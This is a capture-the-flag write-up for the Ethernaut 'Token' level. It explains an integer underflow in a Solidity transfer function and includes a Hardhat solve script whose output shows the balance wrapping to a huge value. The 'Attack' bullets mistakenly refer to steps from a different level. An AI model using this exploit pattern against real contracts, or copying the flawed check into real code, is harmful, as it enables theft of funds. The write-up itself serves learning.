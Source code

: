 ```yaml
---
title: Ethernaut #05 Token
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Token challenge writeup
---
```


## Token

### Challenge

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Things that might help:

*  What is an odometer?


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

### Background

This is a simple integer overflow bug. The statement `require(balances[msg.sender] - _value >= 0);` is always true since `balances` is a `uint`

### Attack

Call transfer with any amount to trigger an integer overflow.

* call `Fal1out` to become the owner
* call `collectAllocations` collect any funds

#### token-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    tokenAddress = "0xe4452a79b5094A91f8A00Fd65aF30e7745730e29";
    contract = await ethers.getContractAt("Token", tokenAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address   : " + contract.address)
    console.log("Token Balance   : " + await contract.balanceOf(account.address))

    // transfer token funds
    tx = await contract.connect(account).transfer("0x0000000000000000000000000000000000000000", 21)
    receipt = await tx.wait()

    console.log("Token Balance   : " + await contract.balanceOf(account.address))
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/token-solve.js --network rinkeby
Level address   : 0xe4452a79b5094A91f8A00Fd65aF30e7745730e29
Token Balance   : 20
Token Balance   : 115792089237316195423570985008687907853269984665640564039457584007913129639935
```

### Success Message

Overflows are very common in solidity and must be checked for with control statements such as:
```
if(a + c > a) {
  a = a + c;
}
```
An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:
```
a = a.add(c);
```
If there is an overflow, the code will revert.
